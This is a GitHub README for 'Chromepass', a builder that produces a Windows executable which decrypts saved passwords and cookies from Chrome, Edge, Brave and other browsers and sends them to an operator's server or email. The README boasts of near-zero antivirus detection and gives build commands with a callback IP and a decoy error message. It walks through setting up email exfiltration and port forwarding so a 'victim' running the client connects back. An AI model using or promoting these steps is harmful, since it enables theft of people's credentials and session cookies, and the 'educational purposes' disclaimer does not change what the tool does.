 <h1 align='center'>Chromepass - Hacking Chrome Saved Passwords and Cookies</h1>
<p align="center">	
    <img src="https://img.shields.io/badge/Platform-Windows-green" />
	<a href="https://github.com/darkarp/chromepass/releases/latest">
	<img src="https://img.shields.io/github/v/release/darkarp/chromepass" alt="Release" />
	</a>
  <a href="https://travis-ci.org/darkarp/chrome-password-hacking">
    <img src="https://img.shields.io/badge/build-passing-green" alt="Build Status on CircleCI" />
	</a>
    <img src="https://img.shields.io/maintenance/yes/2021" />
	</br>
  
  <a href="https://github.com/darkarp/chromepass/commits/master">
    <img src="https://img.shields.io/github/last-commit/darkarp/chromepass" />
  </a>
  <img alt="Scrutinizer code quality (GitHub/Bitbucket)" src="https://img.shields.io/scrutinizer/quality/g/darkarp/chromepass?style=flat">
  <a href="https://github.com/darkarp/chromepass/blob/master/LICENSE">
    <img src="http://img.shields.io/github/license/darkarp/chromepass" />
  </a>
  </br>
  <a href="https://github.com/darkarp/chromepass/issues?q=is%3Aopen+is%3Aissue">
	<img alt="GitHub issues" src="https://img.shields.io/github/issues/darkarp/chromepass">
</a
<a href="https://github.com/darkarp/chromepass/issues?q=is%3Aissue+is%3Aclosed">
	<img alt="GitHub closed issues" src="https://img.shields.io/github/issues-closed/darkarp/chromepass">
</a>
</br>
  <a href="https://discord.gg/beczNYP">
    <img src="https://img.shields.io/badge/discord-join-7289DA.svg?logo=discord&longCache=true&style=flat" />
  </a>
  </br>
    <a href="https://github.com/darkarp/chromepass/blob/master/templates/resources/demo.gif" target="_blank">View Demo</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=bug_report.md&title=">Report Bug</a>
    ·
    <a href="https://github.com/darkarp/chromepass/issues/new?assignees=&labels=&template=feature_request.md&title=">Request Feature</a>
  </p>  
  
  
<!-- TABLE OF CONTENTS -->
## Table of Contents

* [About the Project](#about-the-project)  
	* [AV Detection](#av-detection)
* [Getting started](#getting-started)
  * [Prerequisites](#dependencies-and-requirements)
  * [Installation](#installation)
* [Usage](#usage)
* [Email](#email)
* [Errors, Bugs and Feature Requests](#errors-bugs-and-feature-requests)
* [Learn More](#learn-more)
* [License](#license)
* [Demo](#demo)
---
## About The project
Chromepass is a python-based console application that generates a windows executable with the following features:

  - Decrypt Google Chrome, Chromium, Edge, Brave, Opera and Vivaldi saved paswords and cookies
  - Send a file with the login/password combinations and cookies remotely (http server or email)
  - Undetectable by AV if done correctly
  - Custom icon
  - Custom error message
  - Customize port

---

### AV Detection!  

The new client build methodology practically ensures a 0% detection rate, even without AV-evasion tactics. If this becomes false in the future, some methods will be implemented to improve AV evasion.  

An example of latest scans (note: within 10-12 hours we go from 0-2 detections to 32 detections so run the analysis on your own builds): 
  * [VirusTotal Scan 1](https://www.virustotal.com/gui/file/71d5600e2e9dbdc446aeca554d1f033a69d6f5cf5a7565d317cc22329c084f51/detection)
  * [VirusTotal Scan 2](https://www.virustotal.com/gui/file/f674032061e3d5639d168d68d60a8ff0a53bc249705ec9eb032a385015c20a42/detection)
  * [VirusTotal Scan 3](https://www.virustotal.com/gui/file/462de7fc96d2db7af3400b23d32a75d28909c19e756678f0d2f261efde705165/detection)
  * [VirusTotal Scan 4](https://www.virustotal.com/gui/file/d71a48fb7dc02a14823ceeedd5808e13b6734873f7b1b5c09db433b59eab256e/detection)

 ---
## Getting started

### Dependencies and Requirements

This is a very simple application, which uses only:

* [Python] - Tested on python 3.9+

>It recommended to perform the installation inside a Windows VM. Some parts of the installation procedure might be affected by existing configurations. This was tested on a clean Windows 10 VM.

### Installation

>Chromepass requires Windows to compile! Support for linux and macOS may be added soon.

#### **Clone the repository**:
```powershell
git clone https://github.com/darkarp/chromepass
```
>Note: Alternatively to cloning the repository, you can download the latest release, since the repository may be more bug-prone.

### **Install the dependencies**:

The dependencies are checked and installed automatically, so you can just skip to [Usage](#usage). It's recommended that you use a clean VM, just to make sure there are no conflicts.

If you don't have the dependencies and your internet isn't fast, this will take a while. Go grab some coffee.   

---

## Usage

Chromepass is very straightforward. Start by running:
```powershell
python create.py -h
```
A list of options will appear and are self explanatory.

Running without any parameters will build the server and the client connecting to `127.0.0.1`. 

A simple example of a build:
```powershell
python create.py --ip 92.34.11.220 --error --message 'An Error has happened'
```

After creating the server and the client, make sure you're running the server when the client is ran.

The cookies and passwords will be saved in `json` files on a new folder called `data` in the same directory as the server, separated by ip address.  

-- --

## Email
Chromepass supports sending the files via email, although it's still experimental.
To enable this, you can use the `--email` flag while creating the server. You'll need two things, a username (your email) and a password (an app password).

To generate an app password you must go into your `account settings` -> `Security` and enable 2-step authentication (required!)

After 2-step authentication is enabled, you'll see a new option called `App Passwords`:
![2-step-authentication](https://i.imgur.com/Ip3ShCI.png)

You want to click there and then choose the appropriate options and then generate a password:
![2-step-authentication](https://i.imgur.com/DoQQ4Qn.png) 

After clicking `Generate` it will give you the needed password.
You can use the username and password directly in the command or you can simply put it inside the `config.ini`, where it says `YOUR_USERNAME` and `YOUR_PASSWORD`.

### Example with credentials in command
```powershell
python create.py --error --message 'An Error has happened' --email --username myuser@gmail.com --password qwertyuiopasdfghh
```
### If you put the credentials in the config file (you'll see where if you open this file)
```powershell
python create.py --error --message 'An Error has happened' --email
```

### Remote Notes
>If you'd like to use this in a remote scenario, you must also perform port forwarding (port 80 by default), so that when the victim runs the client it is able to connect to the server on the correct port.  
For more general information, click [here](https://www.noip.com/support/knowledgebase/general-port-forwarding-guide/). If you're still not satisfied, perform a google search.

---

## Manual dependency installation

The automated setup is experimental. For one reason or another, the setup might fail to correctly install the dependencies. If that's the case, you must install them manually.  
Fortunately, there are only 2 dependencies:  
  - [Microsoft Visual C++ Build Tools](https://visualstudio.microsoft.com/thank-you-downloading-visual-studio/?sku=BuildTools&rel=16) (install with the recommended workflows)
  - [Rustup](https://rustup.rs/)

Instead of the build tools you can also just install visual studio but it will take more space.

After successfully installing the build tools, you can simply run the `rustup-init.exe` from [Rustup](https://rustup.rs/)'s website.

This completes the required dependencies and you should be good to go.

---

## Errors, Bugs and feature requests

If you find an error or a bug, please report it as an issue.
If you wish to suggest a feature or an improvement please report it in the issue pages.

Please follow the templates shown when creating the issue.  

---


## Learn More

For access to a community full of aspiring computer security experts, ranging from the complete beginner to the seasoned veteran,
join our Discord Server: [WhiteHat Hacking](https://discord.gg/beczNYP)

If you wish to contact me, you can do so via: `mario@whitehathacking.tech` 

---

## Disclaimer
I am not responsible for what you do with the information and code provided. This is intended for professional or educational purposes only.

## License
<a href="https://github.com/darkarp/chromepass/blob/master/LICENSE"> AGPL-3.0 </a>

---
[![Code Intelligence Status](https://scrutinizer-ci.com/g/darkarp/chromepass/badges/code-intelligence.svg?b=master)](https://scrutinizer-ci.com/code-intelligence)  

[Python]: <https://www.python.org/downloads/>

## Demo
![til](./templates/resources/demo.gif)
